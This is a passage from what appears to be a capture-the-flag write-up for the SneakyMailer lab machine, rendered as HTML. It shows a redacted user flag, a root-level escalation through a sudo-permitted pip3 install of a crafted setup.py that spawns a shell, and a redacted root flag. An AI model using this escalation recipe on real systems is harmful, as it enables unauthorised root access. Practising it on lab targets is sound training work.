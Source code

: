 <span class="nb">cat </span>user.txt
a5b----------------------------a9
</pre>

<h1>Root flag!.</h1>
<h2>Privilege escalation</h2>  
<pre>low@sneakymailer:~$ sudo -l
sudo: unable to resolve host sneakymailer: Temporary failure in name resolution
Matching Defaults entries for low on sneakymailer:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User low may run the following commands on sneakymailer:
    (root) NOPASSWD: /usr/bin/pip3</pre>  
 
  
<blockquote><p>Go to<a href="https://gtfobins.github.io/gtfobins/pip/" target="_blank">https://gtfobins.github.io/gtfobins/pip/</a>and search for pip</p></blockquote>  
<pre><span class="n">TF</span><span class="o">=</span><span class="err">$</span><span class="p">(</span><span class="n">mktemp</span> <span class="o">-</span><span class="n">d</span><span class="p">)</span>
<span class="n">echo</span> <span class="s">"import os; os.execl('/bin/sh', 'sh', '-c', 'sh &lt;$(tty) &gt;$(tty) 2&gt;$(tty)')"</span> <span class="o">&gt;</span> <span class="err">$</span><span class="n">TF</span><span class="o">/</span><span class="n">setup</span><span class="p">.</span><span class="n">py</span>
<span class="n">pip</span> <span class="n">install</span> <span class="err">$</span><span class="n">TF</span>
</pre>
<pre>low@sneakymailer:~<span class="nv">$ TF</span><span class="o">=</span><span class="si">$(</span><span class="nb">mktemp</span> <span class="nt">-d</span><span class="si">)</span>
low@sneakymailer:~<span class="nv">$ </span><span class="nb">echo</span> <span class="s2">"import os; os.execl('/bin/sh', 'sh', '-c', 'sh &lt;</span><span class="si">$(</span><span class="nb">tty</span><span class="si">)</span><span class="s2"> &gt;</span><span class="si">$(</span><span class="nb">tty</span><span class="si">)</span><span class="s2"> 2&gt;</span><span class="si">$(</span><span class="nb">tty</span><span class="si">)</span><span class="s2">')"</span> <span class="o">&gt;</span> <span class="nv">$TF</span>/setup.py
low@sneakymailer:~<span class="nv">$ </span><span class="nb">sudo </span>pip3 <span class="nb">install</span> <span class="nv">$TF</span>
</pre>
<pre>low@sneakymailer:~<span class="nv">$ </span><span class="nb">sudo </span>pip3 <span class="nb">install</span> <span class="nv">$TF</span>
<span class="nb">sudo</span>: unable to resolve host sneakymailer: Temporary failure <span class="k">in </span>name resolution
Processing /tmp/tmp.tQid5dJuNf
<span class="c"># bash</span>
root@sneakymailer:/tmp/pip-req-build-9k8kjhct# <span class="nb">whoami
</span>root
</pre>
<p>And we are "ROOT"!.</p>  
<pre>root@sneakymailer:~# <span class="nb">cat </span>root.txt
11----------------------------ff
root@sneakymailer:~#
</pre>
  
<h1>Thanks for Reading 🙏</h1>
